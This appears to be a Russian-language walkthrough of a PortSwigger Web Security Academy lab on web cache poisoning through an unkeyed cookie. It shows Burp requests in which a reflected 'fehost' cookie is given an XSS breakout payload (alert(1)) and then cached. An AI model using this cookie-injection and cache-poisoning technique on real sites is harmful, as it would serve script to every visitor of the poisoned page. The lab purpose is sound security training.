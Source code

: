 Перейдем на уязвимый ресурс

Откроем `Proxy` -> `HTTP history` и изучим историю запросов

Увидим, что на корневой странице после выдачи нам куки она дублируется на самой странице
```
GET /
Cookie: session=k4lWcQdsKiVGHg9TemHrF865ACq2omq5; fehost=prod-cache-01
```

А в ответе видим
```
<script>
            data = {"host":"0a8500d90367062c856eb31200ae0046.web-security-academy.net","path":"/","frontend":"prod-cache-01"}
        </script>
```

Поле `prod-cache` есть дубль

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/2.%20Web%20cache%20poisoning%20with%20an%20unkeyed%20cookie/pics%20for%20walkthrough/1.png)

Отправим запрос в `Repeater`

и заменим значение `prod-cache-01` на `test` и увидим, что оно все-таки отображается и на фронте. отлично
```
Cookie: session=k4lWcQdsKiVGHg9TemHrF865ACq2omq5; fehost=test
```
а вот что в ответе
```
       <script>
            data = {"host":"0a8500d90367062c856eb31200ae0046.web-security-academy.net","path":"/","frontend":"test"}
        </script>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/2.%20Web%20cache%20poisoning%20with%20an%20unkeyed%20cookie/pics%20for%20walkthrough/2.png)

Далее воспользуемся XSS уязвимостью, и просто постараемся выйти за скобки 
Для этого значние в fehost изменим на 
```
Cookie: session=k4lWcQdsKiVGHg9TemHrF865ACq2omq5; fehost=test"-alert(1)-"test
```
И в ответе получим 
```
<script>
            data = {"host":"0a8500d90367062c856eb31200ae0046.web-security-academy.net","path":"/","frontend":"test"-alert(1)-"test"}
</script>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/2.%20Web%20cache%20poisoning%20with%20an%20unkeyed%20cookie/pics%20for%20walkthrough/4.png)

Дождемся `X-Cache: hit` и получим уведомление об успешно выполненной лабораторной работе
